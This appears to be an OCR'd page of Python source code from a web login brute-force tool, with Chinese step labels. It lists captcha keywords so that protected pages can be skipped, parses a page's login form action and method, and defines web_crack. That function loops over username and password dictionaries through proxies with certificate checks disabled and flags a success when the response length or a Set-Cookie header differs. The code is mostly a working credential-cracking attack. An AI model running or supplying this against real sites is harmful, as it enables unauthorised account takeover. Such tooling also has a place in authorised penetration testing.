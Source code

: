 ```
yzms = ['验证码','点击更换','点击刷新','checkcode','valicode','code','captcha']
```
2、通过解析页面获取post地址及参数

```
def get_post_get_page(content,url):
    form_action = str(content).split('\n')[0]
    # print form_action
    soup = BS(form_action, "lxml")
    url_path = ''
    for x in re.findall(".*?/",url):
        url_path =  url_path+x

    action_url = soup.form['action']
    if str(action_url).startswith('http'):
        path = action_url
    else:
        path = url_path+soup.form['action']
    method = soup.form['method']
    return path,method
    
```

3、在获取相关参数和path后调用破解函数web_crack进行密码破解

```
def web_crack(method,path,data):
    conn =  requests.session()
    res0 = conn.get(path, headers=requests_headers(), allow_redirects=False,timeout=10,proxies = requests_proxies())
    error_length,cookie_error_flag,dynamic_req_len = get_error_length(conn,method,path,data)
    if dynamic_req_len:
        return False,False

    num = 0
    success_flag = 0
    dic_all = len(USERNAME_DIC)*len(PASSWORD_DIC)
    for user_name in USERNAME_DIC:
        for pass_word in PASSWORD_DIC:
            data1 = data
            # print data1
            user_name = user_name.strip()
            pass_word = pass_word.strip()
            pass_word = str(pass_word.replace('{user}', user_name))
            data2 = str(data1.replace('%7Buser_name%7D', user_name))
            data2 = str(data2.replace('%7Bpass_word%7D', pass_word))

            num = num+1

            res = conn.post(url = path,data = data2, headers=requests_headers(), timeout=10,verify=False,allow_redirects=False,proxies = requests_proxies())
            cur_length = len(res.content+str(res.headers))

            if cookie_error_flag:  # cookie_error_flag表示每个数据包中都有cookie
                if cur_length!=error_length:
                    success_flag =1
                    return user_name,pass_word
            elif 'Set-Cookie' in res.headers and cur_length!=error_length:
                success_flag =1
                return user_name,pass_word
    if success_flag == 0:
        return False,False
        
```
